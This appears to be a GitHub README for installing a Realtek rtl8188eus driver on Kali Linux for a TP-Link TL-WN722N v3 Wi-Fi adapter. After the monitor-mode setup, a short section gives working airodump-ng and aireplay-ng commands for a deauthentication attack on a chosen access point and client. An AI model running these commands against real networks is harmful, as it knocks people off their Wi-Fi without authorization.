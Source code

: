 # tp-link-v3-TL-WN722N
realtek-rtl8188eus-dkms packaging for Kali Linux

## copy  and past the below commands

sudo  apt update

sudo apt dist-upgrade

reboot

sudo apt install linux-headers-$(uname -r) 

sudo apt install bc

sudo rmmod r8188eu.ko

sudo git clone https://github.com/keralahacker/tp-link-v3-TL-WN722N/

cd tp-link-v3-TL-WN722N

sudo unzip realtek-rtl8188eus-keralahacker.zip

cd realtek-rtl8188eus-keralahacker

sudo -i

echo "blacklist r8188eu.ko" > "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu


----------------------------------------------------------------------------------
#### if you face any issues ===> 
https://github.com/keralahacker/tp-link-v3-TL-WN722N/issues/new 
#### submit with screenshot
----------------------------------------------------------------------------------

## To enable Monitor mode

ifconfig wlan0 down

airmon-ng check kill

iwconfig wlan0 mode monitor

ifconfig wlan0 up

iwconfig                                     \\check mode: monitor



Deauthentication Attack[for educational purpose only]



airodump-ng wlan0

airodump-ng --bssid <id> --channel <ch> --write test wlan0

aireplay-ng --deauth [any no.] -a <bssid> -c <station id> wlan0


Important note: 

If after restarting your kali machine doesn't recognise your device..
As lot of people are facing the same problem ..
I have a solution for you..
Whenever you restart your kali OS
Insert the adapter and run the command


sudo rmmod r8188eu.ko

Sudo modprobe 8188eu

Disconnect the device and connect again..
